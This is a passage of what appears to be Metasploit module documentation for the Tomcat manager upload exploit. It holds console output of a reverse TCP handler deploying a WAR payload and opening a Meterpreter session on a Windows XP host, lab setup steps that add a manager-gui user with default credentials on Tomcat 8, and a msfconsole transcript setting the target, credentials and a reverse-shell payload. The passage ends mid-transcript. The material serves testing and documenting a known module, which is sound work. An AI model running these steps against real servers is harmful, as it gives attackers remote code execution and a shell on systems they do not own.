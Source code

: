     [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Uploading and deploying vm5yNsROSQ...
    [*] Executing vm5yNsROSQ...
    [*] Undeploying vm5yNsROSQ ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.108:3427) at 2017-01-15 19:25:22 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

### Tomcat 8 (8.0.39)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat8](http://apache.osuosl.org/tomcat/tomcat-8/v8.0.39/bin/apache-tomcat-8.0.39.exe)

The install was default, other than adding a user during install.  No other options were changed.

#### Exploitation

1. If a user was not defined at install, you will need to add a `manager-gui` permission user.  Edit `C:\Program Files\Apache Software Foundation\Tomcat 8.0\tomcat-users.xml` to add the following under the `<tomcat-users` line:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > check
    